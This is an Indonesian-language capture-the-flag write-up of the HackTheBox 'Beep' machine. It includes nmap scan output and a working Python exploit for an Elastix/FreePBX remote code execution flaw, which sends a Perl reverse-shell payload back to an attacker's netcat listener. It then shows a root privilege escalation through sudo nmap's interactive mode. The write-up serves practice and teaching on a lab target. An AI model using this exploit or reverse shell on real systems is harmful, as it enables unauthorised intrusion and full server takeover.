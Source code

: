 ```yaml
---
featured_image: "/uploads/justakazh/2023-01-02_11-28.png"
author_description: Aku nulis karena aku pelupa
author_avatar: "/uploads/justakazh/1656477958868.jpeg"
author_facebook: https://facebook.com
author_twitter: https://twitter.com
author_instagram: https://instagram.com
author_donation: paypal / saweria / buymecoffe / etc
author_web: https://blog.hackstreet.id
title: HackTheBox - Beep
date: 2023-01-02T00:00:00.000+07:00
author: Justakazh
tags:
- htb
- writeup
- rce
- voip
categories: capture the flag

---
```

## Summary

Machine Name : Beep

Machine Difficult : Easy

Machine Author : [ch4p](https://app.hackthebox.com/users/1)

Machine URL : [https://app.hackthebox.com/machines/Beep](https://app.hackthebox.com/machines/Beep "https://app.hackthebox.com/machines/Beep")

## Enumeration

Hal pertama yang kita lakukan adalah melakukan enumerasi terhadap common port yang terbuka pada server (beep.htb / 10.10.10.7) tersebut.

```bash
     # Nmap 7.92 scan initiated Mon Jan  2 10:08:00 2023 as: nmap -sS -oN nmapsScommon 10.10.10.7
    Nmap scan report for 10.10.10.7
    Host is up (0.33s latency).
    Not shown: 987 closed tcp ports (reset)
    PORT      STATE SERVICE
    22/tcp    open  ssh
    25/tcp    open  smtp
    80/tcp    open  http
    110/tcp   open  pop3
    111/tcp   open  rpcbind
    143/tcp   open  imap
    443/tcp   open  https
    880/tcp   open  unknown
    993/tcp   open  imaps
    995/tcp   open  pop3s
    3306/tcp  open  mysql
    4445/tcp  open  upnotifyp
    10000/tcp open  snet-sensor-mgmt
    
    # Nmap done at Mon Jan  2 10:12:56 2023 -- 1 IP address (1 host up) scanned in 296.02 seconds
```

terdapat 13 Port yang terbuka pada server tersebut, mari kita identifikasi versi yang digunakan pada masing-masing service tersebut

```bash
    # Nmap 7.92 scan initiated Mon Jan  2 10:17:13 2023 as: nmap -p22,25,80,110,111,143,443,880,993,995,3306,4445,10000 -sV -oN nmapopenversion beep.htb
    Nmap scan report for beep.htb (10.10.10.7)
    Host is up (0.32s latency).
    
    PORT      STATE SERVICE    VERSION
    22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
    25/tcp    open  smtp       Postfix smtpd
    80/tcp    open  http       Apache httpd 2.2.3
    110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    111/tcp   open  rpcbind    2 (RPC #100000)
    143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
    880/tcp   open  status     1 (RPC #100024)
    993/tcp   open  ssl/imap   Cyrus imapd
    995/tcp   open  pop3       Cyrus pop3d
    3306/tcp  open  mysql?
    4445/tcp  open  upnotifyp?
    10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
    Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Jan  2 10:20:35 2023 -- 1 IP address (1 host up) scanned in 202.56 seconds
```

dapat dilihat pada hasil scanning tersebut port 80/http yang menggunakan web server Apache httpd 2.2.3

seperti biasa, mari kita check web tersebut tersebut terlebih dahulu [http://beep.htb ]()

![](/uploads/justakazh/2023-01-02_11-58.png)

dapat dilihat pada gambar diatas tersebut merupakan [Elastix]() yaitu perangkat lunak server komunikasi terpadu yang menyatukan fungsi IP PBX, email, IM, faks, dan kolaborasi. mari kita cari tahu tentang Elastix vulnerability yang tersedia pada internet

![](/uploads/justakazh/2023-01-02_12-07.png)

terkait dengan penjelasan exploit tersebut akan saya buatkan pada artikel yang berbeda "[FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution](https://blog.hackstreet.id/posts/freepbx-2.10.0-elastix-2.2.0-remote-code-execution/ "https://blog.hackstreet.id/posts/freepbx-2.10.0-elastix-2.2.0-remote-code-execution/")"

## Exploitation

berikut ini merupakan kode exploit yang akan kita gunakan untuk mendapatkan akses server tersebut (simpan ke exploit.py)

``` python
import urllib2
import ssl

rhost="10.10.10.7"
lhost="10.10.14.4"
lport=4444
extension="233"


ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib2.urlopen(url,context=ctx)
```

selanjutnya kita akan membuat listener pada port 4444 menggunakan netcat dengan mengetikan perintah

    nc -lnvp 4444

apabila semua requirement diatas sudah siap, mari kita jalankan exploit tersebut dengan mengetikan perintah

    python exploit.py

![](/uploads/justakazh/2023-01-02_12-20.png)

dapat dilihat pada gambar diatas tersebut kita berhasil mendapatkan akses server tersebut dengan user `asterisk`, selanjutnya mari kita melakukan privilege escalation untuk mendapatkan akses root.

## Privilege Escalation

sebelumnya kita bisa mengaktifkan TTY session agar command yang kita jalankan akan dieksekusi dengan baik, kita dapat menggunakan perintah

    script -qc /bin/bash /dev/null
    
    python -c 'import pty; pty.spawn("/bin/bash")'

selanjutnya mari kita check privileges yang terdapat user tersebut dengan mengetikan perintah :

    sudo -l
    
    bash-3.2$ sudo -l
    Matching Defaults entries for asterisk on this host:
        env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
        LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
        LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
        LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY"
    
    User asterisk may run the following commands on this host:
        (root) NOPASSWD: /sbin/shutdown
        (root) NOPASSWD: /usr/bin/nmap
        (root) NOPASSWD: /usr/bin/yum
        (root) NOPASSWD: /bin/touch
        (root) NOPASSWD: /bin/chmod
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /sbin/service
        (root) NOPASSWD: /sbin/init
        (root) NOPASSWD: /usr/sbin/postmap
        (root) NOPASSWD: /usr/sbin/postfix
        (root) NOPASSWD: /usr/sbin/saslpasswd2
        (root) NOPASSWD: /usr/sbin/hardware_detector
        (root) NOPASSWD: /sbin/chkconfig
        (root) NOPASSWD: /usr/sbin/elastix-helper
    bash-3.2$ 

user tersebut dapat menjalankan `nmap` sebagai root, kita bisa mendapatkan akses root melalui nmap tersebut dapat dilihat pada link berikut ini

* [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/ "https://gtfobins.github.io/gtfobins/nmap/")

kita dapat mengetikan perintah berikut

    sudo nmap --interactive

ketika berhasil masuk dalam mode interactive nmap ketikan perintah berikut

    !sh

berikut ini output yang saya dapatkan

    bash-3.2$ sudo nmap --interactive
    
    Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> EOF reached -- quitting
    QUITTING!
    bash-3.2$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    bash: python3: command not found
    bash-3.2$ python -c 'import pty; pty.spawn("/bin/bash")'
    bash-3.2$ sudo nmap --interactive
    sudo nmap --interactive
    
    Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !sh
    !sh
    sh-3.2# id && whoami
    id && whoami
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    root
    sh-3.2# 

HOREEE!

kita berhasil melakukan privilege escalation dan mendapatkan akses root pada server tersebut!